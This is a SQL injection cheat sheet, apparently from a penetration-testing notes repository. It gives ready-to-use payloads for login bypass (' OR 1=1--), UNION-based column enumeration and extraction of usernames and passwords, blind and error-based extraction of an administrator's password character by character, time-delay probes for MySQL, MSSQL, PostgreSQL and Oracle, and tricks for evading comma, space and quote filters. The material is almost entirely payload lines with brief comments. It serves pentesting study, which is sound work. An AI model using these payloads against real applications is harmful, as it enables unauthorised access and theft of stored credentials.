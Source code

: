 *\*When passing the '--' commenting syntax in quotes, make sure to add a space after: '-- '*

### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```
### Retrieving Database Version
```
# mysql / mariadb and Microsoft SQL
select @@version;

# postgreSQL
select version()

# oracle
select banner from v$version
select version from v$instance

```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL

```
# Identify password length
'AND (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a

# Identify one password character at a time
# This example depends on differences in the return data.
'AND (SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='administrator'),<character position>,1)))=<ascii decimal value>--
# For each substring character (1,1; then 2,1; 3,1; etc...) cycle through all the decimal values for printable characters (33-126)

# for oracle, use SUBSTR instead of SUBSTRING

#These conditional queries depend on triggering error messages.

#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#Working PostgreSQL Statement 
(SELECT CASE WHEN count((SELECT(SELECT CASE WHEN count(( SELECT 1 ))<>0 THEN pg_sleep(5) ELSE $$$$ END)))<>0 THEN true ELSE false END) --

#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
### Bypassing Comma Restrictions
```
SELECT 1,2,3,4 FROM TABLE;    UNION SELECT * from ((SELECT 1 FROM TABLE)a JOIN (SELECT 2 FROM TABLE)b JOIN (SELECT 3 FROM TABLE)c JOIN (SELECT 4 FROM TABLE)d)--
```
### Bypassing Space Restrictions  
```
# mysql
SELECT/**/1;

# postgreSQL
/**/

```
### Bypassing Quote Restrictions  
```
# postgres  
SELECT 'TEST'; # example
SELECT $$TEST$$;
SELECT $TAG$TEST$TAG$;
SELECT CHR(84) || CHR(69) || CHR (83)  || CHR (84);
```
# Time Delays
```
# mysql / mariadb 
sleep(10)

# Microsoft SQL 
WAITFOR DELAY '0:0:10'

# postgreSQL
SELECT pg_sleep(10)

# oracle
dbms_pipe.receive_message(('a'),10)
```

### SQLi Reference Links
https://portswigger.net/web-security/sql-injection/cheat-sheet  
[Blind SQLi example code](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/development/python/custom_functions/bsqli.py)
